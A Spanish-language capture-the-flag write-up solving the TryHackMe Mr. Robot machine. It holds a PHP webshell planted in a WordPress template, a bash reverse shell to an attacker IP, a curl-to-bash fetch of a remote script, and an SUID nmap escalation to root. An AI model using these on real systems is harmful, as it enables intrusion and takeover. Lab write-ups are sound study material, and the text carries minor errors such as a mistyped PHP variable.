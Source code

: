 ```yaml
---
layout: post
title:  "Maquina Mr.RobotCTF de TryHackMe (No necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de TryHackMe llamada MR.ROBOT-CTF-
tags: TryHackMe, Mr.Robot, nmap, Wordpress, Web Hacking, , SUID, Writeup, 
---
```


# Anonymous ~ TryHackMe

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.158.107       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.41 seconds
```
Procedemos con la herramienta `Whatweb`:
```bash
"# wtw 10.10.158.107     "                                                                                                                             1 ⨯
http://10.10.158.107 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache], IP[10.10.158.107], Script, UncommonHeaders[x-mod-pagespeed], X-Frame-Options[SAMEORIGIN]
                                                                                                                                                           
"# wtw 10.10.158.107:443  "
http://10.10.158.107:443 [400 Bad Request] Apache, Country[RESERVED][ZZ], HTTPServer[Apache], IP[10.10.158.107], Title[400 Bad Request], X-Frame-Options[SAMEORIGIN]
```
Procedemos a hechar un vistazo visual a la pagina web por el puerto 80:

INVESTIGANDO POR LA PAGINA WEB ENCONTRAMOS:

1.- http://10.10.158.107/wp-login.php

2.- http://10.10.158.107/comments/ 		-- SEGUIMOS POR AQUI

3.-Probamos a hacer un Simple Fuzzing web ya que el script de nmap esta tardando muchisimo

4.- Buscamos por la ruta de `robots.txt`:
```bash
Encontramos un diccionario `fsociety.txt`que nos descargamos y la primera flag
```
5.- Seguimos enumerando diferentes archivos a nivel de ruta `license.txt`:
```bash
encontramos esta cadena "ZWxsaW90OkVSMjgtMDY1Mgo="

# echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
	elliot : ER28-0552  		--  que nos permite entrar en el CMS WORDPRESS 
```

# Acceso Inicial desde el Wordpress modificando la plantilla 404.php

Una vez tenemos acceso al Wordpress vamos a repetir el mismo proceso realizado en otras maquinas en la plataforma de HTB mediante en el cual modificando la plantilla de la pagina
404.php por en este caso lo siguiente:
```php
Una webshell facilita para poder ejecutar comandos desde la url
<?php
        system($_RESQUEST['cmd']);
?>
```
Luego nos montamos un servidor que nos postee un `script.sh` que nos envie una R_shell a nuestra IP por el 443:
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.9.4.60/443'
```
Para luego apuntar desde el `404.php` y pipearlo `"[ | ]"` con Bash:
```bash
" http://10.10.158.107/asdfasdfa?cmd=curl%20http://10.9.4.182/script.sh|bash       "			
```
Accedemos y nos hacemos la consola interactiva con `python` esta vez:
```python															
python -c 'import pty; pty.spawn("/bin/bash")	
ctrl+Z
```
Vemos que tenemos un la flag en `/home/robot/user.txt` y que no podemos leerla. Pero podemos ver la pass del user `Robot` almacenada en la misma carpeta.
`robot:c3fcd3d76192e4007dfb49xxxxxxxx` en md5
La crackeamos con `CrackStation.com`
Procedemos a hacer un cambio de usuario con el comando `su` y conseguimos la flag `user.txt`

# Escalada de Privilegios hasta el user Root
Procedemos como siempre a enumerar de distintas formas la maquina:
1.- Permisos SUID
```bash
$ find / -perm -u=s -type f 2>/dev/null
```
```
/usr/bin/nmap --SUID
```
Con el binario de `nmap` como SUID procedemos asi:
```bash
  nmap --interactive
  nmap> !sh  
```
```bash
"robot@linux:~$ /usr/local/bin/nmap --interactive       "
                                                                                                                                                           
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )                                                                                                    
Welcome to Interactive Mode -- press h <enter> for help 

"nmap> !sh  "                                                                                                                                                 
# whoami                                                                                                                                                   
root                                                                                                                                                       
#       
```
Ya estariamos como root y podriamos sacar la flag `root.txt`.
Maquina Mr.Robots Rooteada =) 
